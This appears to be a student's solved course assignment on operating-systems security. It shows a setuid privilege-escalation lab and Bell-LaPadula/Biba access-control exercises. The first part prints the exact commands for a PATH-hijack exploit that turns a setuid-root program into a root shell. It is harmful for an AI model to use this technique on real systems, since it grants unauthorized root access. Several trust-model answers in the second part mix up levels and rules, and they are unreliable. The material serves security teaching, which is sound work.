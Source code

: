 # Assignment 4

## 1 - Play around with the setuid (suid) bit

In Week 1 lecture, you were introduced to the **setuid** bit. In this exercise, you will learn how to carry out *privilege escalation* using suid.

Login to your (Kali) Linux system as a **non**-root user and download the program **showdate** from [https://www.cs.ru.nl/~vmoonsamy/teaching/ossec2016/showdate](https://www.cs.ru.nl/~vmoonsamy/teaching/ossec2016/showdate) (for 64-bit OS).

Then, change the owner
`$ sudo chown root:root showdate`
set the suid bit and make it executable
`$sudo chmod u+s,a+x showdate`
Execute the program and verify it prints the date correctly
`$ ./showdate`
*Fri Nov 18 xx:xx:xx EST 2016*

Install the tool **strace**
`$ sudo apt-get isntall strace`
and run it to see system calls used by **showdate**
`$ strace -f ./showdate`



**Objectives**

* a) Find out what the program does internally. What system calls does it use?
	* Answer: strace is printing its output to stderr and not to stdout. Therefore you have to redirect its output to later pipe it to grep.

	```
	root@kali:~/operating_systems_security/assignment-4# strace -f ./showdate 2>&1 | grep -oP "\w+(?=\()" | sort -u
	access
	arch_prctl
	brk
	clone
	close
	execve
	exit_group
	fstat
	geteuid
	getpid
	getppid
	lseek
	mmap
	mprotect
	munmap
	open
	read
	rt_sigaction
	rt_sigprocmask
	rt_sigreturn
	setgid
	setuid
	stat
	wait4
	WEXITSTATUS
	WIFEXITED
	write
	```
	

* b) Assume the role of a non-privileged attacker. Use the program *showdate* to obtain a root shell. You can verify if you succeeded by looking at the output of **id**, it should be something like: `$ /usr/bin/id` *uid=0(root) gid=0(root) groups=0(root),27(sudo),1001(test1)* Hand in the exact console commands you used to get this working.

	* Answer: The solution is based on this article [Reach the Root](https://hackmag.com/security/reach-the-root/) under the **Path** section. The main idea here is that you modify the PATH variable to escalate privileges. The showdate script is invoking the date command which is not hard-coded to a specific path but can be altered inside the PATH variable which we can modifiy even without root privileges. 

	```
	testuser1@kali:/root/operating_systems_security/assignment-4$ id
	uid=1000(testuser1) gid=1000(testuser1) groups=1000(testuser1)

	testuser1@kali:/root/operating_systems_security/assignment-4$ ln -s /bin/sh date
	testuser1@kali:/root/operating_systems_security/assignment-4$ PATH=.:${PATH}
	testuser1@kali:/root/operating_systems_security/assignment-4$ export PATH
	testuser1@kali:/root/operating_systems_security/assignment-4$ ./showdate
	testuser1@kali:/root/operating_systems_security/assignment-4$ ./showdate
	# id
	uid=0(root) gid=0(root) groups=0(root),1000(testuser1) 
	```

	By creating a symbolic link from /bin/sh to date and then prepend the current directory to the PATH variable, the showdate script is not executing the date command but /bin/sh instead and we get our shell.

* c) Explain what a developer could do to overcome this issue. What explicit actions should a developer take when writing software that is intended to be used with *setuid-root* to avoid these types of problems?
	* Answer: A developer could hard-code the dependencies of the script into locations which are only accessable to root and do not rely on entries inside the PATH variable which can be altered by normal users.




## 2 - Trust models

In this exercise we consider a reference monitor which uses Mandatory Access Control (MAC) to implement the Bell-LaPadula and the Biba model. The Bell-LaPadula model uses levels **unclassified** <= **confidential** <= **secret** <= **top secret**. The Biba model uses levels **untrusted** <= **user** <= **application** <= **system** <= **trusted**. The following objects with corresponding secrecy and trust levels are used in this exercise:

* /home/peter/database (confidential, user),
* /etc/password (confidential, trusted)
* /etc/shadow (top secret, trusted)
* /usr/bin/someprog (unclassified, application)
* /usr/lib/somelib.so (unclassified, system)
* Network socket to 203.0.113.42, port 80 (unclassified, untrusted)

**Objectives**


* a) For each of the following steps determine whether the reference monitor will allow the action. If not, explain why not (if there are multiple reasons, state all).
	* i) User peter logs in with clearance (secret, application) and tries to run */usr/bin/someprog*.

		* Answer: I assume that both the Bell-LaPadula and the Biba model are using weak tranquility as shown in the slides. **Weak tranquility** = Security level of a process never changes in a way that it violates the security policy. Typically start with low level, and increase as the process reads higher-level information. As peter logs in with clearance (secret, application), */usr/bin/someprog* receives the levels (unclassified, trusted). Therefore the action is **allowed**. 

	* ii) The process dynamically loads (reads) */usr/lib/somelib.so*

		* Answer: As the process dynamically loads */usr/lib/somelib.so*, */usr/bin/someprog* receives the levels (unclassified, system). Therefore the action is **allowed**. 

	* iii) The process reads */home/peter/database*.

		* Answer: Because */home/peter/database* has the level (confidential, user) and */usr/bin/someprog* cannot read below the confidentiality level *application* (No read-down), this action is **not allowed**.

	* iv) The process writes data to the network socket.
		* Answer: Because the network socket has the level (unclassified, untrusted) and */usr/bin/someprog* is running with (unclassified, system), this action is **allowed**. The Biba rule forbids write-up but not write-down.

	* v) The process reads */etc/password*.
		* Answer: As the process is reading */etc/password* with level (confidential, trusted), the process is receiving the level (confidential, system) and is therefore **allowed** to execute this action. The Bida rule forbids read-down but not read-up.

	* vi) The process writes */etc/shadow*.
		* Answer: As the process is trying to write to */etc/shadow* with level (confidential, trusted), the process still has the level (confidential, system). The Bida rule forbids write-up, therefore this action is **not allowed**.

* b) The process from part a) now creates a new file */home/peter/out*. What are the permitted pairs of trust and secrecy level for this output file?

	* Answer: At the end of action vi the process spawned from executing */usr/bin/someprog* has the level of (confidential, system). As the Bell-LaPadula model forbids write-down but write-up is not a problem, the output file could have have any confidentiality level of confidential, secret or top secret but not unclassified. The Biba model forbids write-up but write-down is not a problem, therefore the integrity level could be anything between system, application, user or untrusted but not trusted. Any combination from those two sets is therefore a possible combination for the file */home/peter/out* like (top secret, system). 
